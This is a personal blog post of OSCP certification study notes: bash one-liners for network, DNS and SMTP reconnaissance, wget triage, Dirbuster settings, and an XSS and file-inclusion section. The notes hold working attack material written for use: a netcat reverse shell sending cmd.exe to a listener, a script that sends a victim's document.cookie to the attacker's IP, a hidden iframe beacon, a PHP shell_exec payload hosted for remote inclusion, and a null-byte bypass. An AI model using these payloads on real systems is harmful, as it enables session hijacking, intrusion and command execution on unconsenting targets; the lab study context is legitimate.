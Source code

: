 ```yaml
---
layout: post
title: OSCP Notes
---
```


## BLUF  
"Bottom Line Up Front" for the non-military types. Honestly I just want to get my notes onto the interwebs and off my VM. I've 
done a lot of bash scripting in OSCP that is super useful, but I can't always remember the syntax. Here's to fixing that. I'll do another blog post tomorrow when I'm not half asleep.  
Edit: After posting this my JS XSS tester executed. Kinda surprising that Github lets you incorporate XSS into a site they host. 
Maybe it's just a don't ask don't tell policy? Gotta put some filler in to stop the code from executing since it would probably 
freak out any onlookers.

## Meat and Potatoes  

### Starting OSCP Work  

Example OpenVPN firewall - /usr/share/doc/openvpn/examples/sample-config-files/firewall.sh
Add firewall rules - iptables -A INPUT -p tcp --dport 4444 -j ACCEPT
Plink (was told to locate) /usr/share/windows-binaries/plink.exe
Keepnote keepnote for note taking on boxes
If there is firewall issues, try pushing the cmd line from the remote host by passing nc -nv [IP] [Port] -e cmd.exe from remote end and setting up a listener to catch it
recon-ng for passive information gathering

### NMAP/ NC Info Gathering  

root@kali:~/OSCP# nc -nvv -w 1 -z 10.11.23.156 3385-3395 (full TCP handshake scan using NC)
root@kali:~/OSCP# nc -unvv -w 1 -z 10.11.23.156 160-165 (UDP scan using NC)
/usr/share/nmap (location of nmap config files)

### Get top UDP ports (over .01 usage according to NMAP)  

cat /usr/share/nmap/nmap-services | grep '/udp'| cut -f2,3 -d$'\t'| sort -k2 -r | head -n 80 | cut -f1 -d'/'

### DNS  

host -t ns [domain_name] (to find name servers for given domain)
host -t mx [domain_name] (to find mail exchange servers for given domain)
for ip in $(cat NMAP/alives.txt); do dnsrecon -d $ip -t axfr; done

### SMTP/MIB  

cat mib-values | cut -f1 -d$'\t' (to cut from tab delimited)
tail -n +1 10.* (cat all files in a directory with the filename as a header)
for ip in $(cat smtp-open.txt); do for user in $(cat users.txt) ; do ./vrfy.py $ip $user; done; done | grep ^"250" > smtp_open_connected_users & (to find SMTP users who have successfully connected)
for ip in $(cat NMAP/alives.txt); do nc -nv $ip 25; done (to test SMTP connection using nc [not as good as python script])
for ip in $(ls | cut -c1-11 | uniq); do mkdir $ip ; done (to creat folders for each ip address in the SNMP directory)

### WGET  

#### To find the ips with information returned from WGET  
tail -n +1 ./WGET/*/* | grep connected | cut -f3 -d' '| sort -u | cut -f4 -d'.' | cut -f1 -d':' | sort -u > ./WGET/web_vuln_ips
 
#### For moving vulnerable IPs to seperate folder  
for ip in $(cat web_vuln_ips); do  mv 10.11.1.$ip 'Vulnerable Servers'; done 

#### To get list of vulnerable files downloaded  
for ip in $(cat ./WGET/web_vuln_ips); do  tail -n +1 ./WGET/$ip/* | grep 10.11.1.$ip/; done

### XSS Commands

#### Test  
"<iframe SRC="(use your IP):(Port to listen on) /report" height="0" width="0"></iframe>
<script>alert("XSS through Javascript, success");</script>"  -------------

#### Cookie Stealing Inject  
<script>new Image().src="http://(use your IP):81 /bogus.php?output="+document.cookie;</script>

#### Malicious php code to host on local box  
echo '<?php echo shell_exec("ipconfig");?>' > /var/www/html/evil.txt

##### Then place the appropriate url in place of the php element  
http://(local ip)/evil.txt  

#### Then monitor Apache log once the above has been placed in URL
tail -f /var/log/apache2/access.log  

###### If php is adding unnecessary values, php 5.3 and below are vulnerable to terminating characters with null character
http://(local ip)/evil.txt%00  
  
### Dirbuster  
Wordlist - /usr/share/dirbuster/wordlists/directory-list-1.0.txt (one shown in OSCP video)
Deselect "Brute Force Files" & "Be Recursive"
Set number of threads to 70+
